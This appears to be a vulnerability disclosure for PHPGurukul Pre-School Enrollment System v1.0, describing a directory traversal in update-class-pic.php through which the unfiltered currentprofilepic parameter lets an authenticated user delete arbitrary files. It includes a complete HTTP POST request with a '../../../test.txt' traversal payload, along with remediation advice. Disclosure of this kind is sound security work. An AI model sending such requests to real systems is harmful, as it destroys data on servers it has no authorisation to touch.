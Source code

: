 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-3(update-class-pic.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-class-pic.php file    
   Lines 15 and 16 get the currentprofilepic parameter and concatenate it into oldprofilepic. currentprofilepic is not filtered.
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/9.png)   
   Line 40 unlink oldprofilepic, which leads to this directory traversal vulnerability
   ![9](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/10.png)    
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-class-pic.php page, classes-manage-Edit Class-Update Class Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/4.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/5.png)

   Transformed into attack payload    

    
    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7 HTTP/1.1
    Host: localhost
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywWObpfrtssMBATrx
    Accept-Language: zh-CN,zh;q=0.9
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Origin: http://localhost
    sec-ch-ua-mobile: ?0
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br, zstd
    Content-Length: 5637583

    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../test.txt
    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="teacherpic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundarywWObpfrtssMBATrx--

   Create test.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/7.png)

   Send payload, test.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/8.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
